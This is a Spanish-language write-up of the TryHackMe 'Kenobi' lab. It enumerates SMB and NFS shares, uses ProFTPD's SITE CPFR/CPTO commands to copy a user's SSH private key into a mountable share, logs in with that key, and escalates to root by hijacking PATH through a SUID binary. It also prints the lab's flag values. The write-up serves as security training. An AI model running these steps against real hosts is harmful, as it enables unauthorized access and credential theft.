


# Kenobi

## Mapeo de puertos

Escaneamos los puertos abiertos y los servicios que puedan ser vulnerables.

```
sudo nmap -sV -O -T4 10.10.17.83
```

Tenemos 7 puertos abiertos potencialmente vulnerables.




## Enumerando

SMB tiene dos puertos: 139 y 445. Usamos el siguiente comando de nmap con un script para enumerarlos:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.17.83
```

Encontramos 3 shares por SMB.



Accedemos al de anonymous:

```
smbclient //10.10.17.83/anonymous
```

Podemos ver que hay un fichero llamado`log.txt`.

![[Pasted image 20250223164906.png]]

Lo descargamos en nuestra máquina anfitrión de Kali.

![[Pasted image 20250223165020.png]]

Mostramos el contenido.

```
cat log.txt
```

Hay información sobre la clave de SSH y del servidor ProFTPD.

![[Pasted image 20250223165112.png]]

Ahora vamos a enumerar con un script de`nmap`el puerto 111, que sirve para acceder al sistema de archivos de una red:

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.236.136
```
Sólo está montada la carpeta`/var`:

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image.png]]

## Acceso mediante Proftpd

Buscamos una vulnerabilidad de la versión del servidor ftp en la máquina.

```
searchsploit proftpd 1.3.5
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-1.png]]

Nos conectamos a Proftpd mediante`netcat`:

```
nc 10.10.236.136 21
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-2.png]]

Copiamos la clave privada de SSH:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
```

Ponemos como carpeta de destino el directorio`/var`que está siendo compartido en la red.

```
SITE CPTO /var/tmp/id_rsa
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-3.png]]

## Acceso por SSH

Montamos la carpeta`/var`a nuestro sistema:

```
sudo mount 10.10.236.136:/var mnt 
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-4.png]]

Obtenemos la clave privada de Kenobi para acceder con él.

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-5.png]]

Cambiamos los permisos de la clave:

```
sudo chmod 600 id_rsa
```

Nos conectamos finalmente con el usuario por SSH utilizando la clave.

```
ssh -i id_rsa kenobi@10.10.236.136
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-6.png]]

Obtenemos la flag de`user.txt`.

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-7.png]]
```
d0b0f3f53b6caa532a83915e19224899
```

## Escalada de privilegios

Buscamos un binario con el SUID activo.

```
find / -perm -u=s -type f 2>/dev/null
```

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-8.png]]

Ejecutamos el`/usr/bin/menu`porque no es un archivo ordinario:

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-9.png]]

Usamos el comando`strings`también con el binario:

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-10.png]]

Ese comando se está ejecutando con privilegios de root.

Nos aprovechamos de ello y rompemos el comando`curl`:

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-11.png]]

El último comando significa que cuando ejecutemos otros comandos, la shell comprobará los ejecutables en el directorio`/tmp`antes de buscarlo en el resto de direcciones especificadas en el PATH original.

![[Hacking_Etico/TryHackMe_WriteUps/Kenobi/images/image-12.png]]

Obtenemos la flag de`root.txt`:

```
177b3cd8562289f37382721c28381f02
```
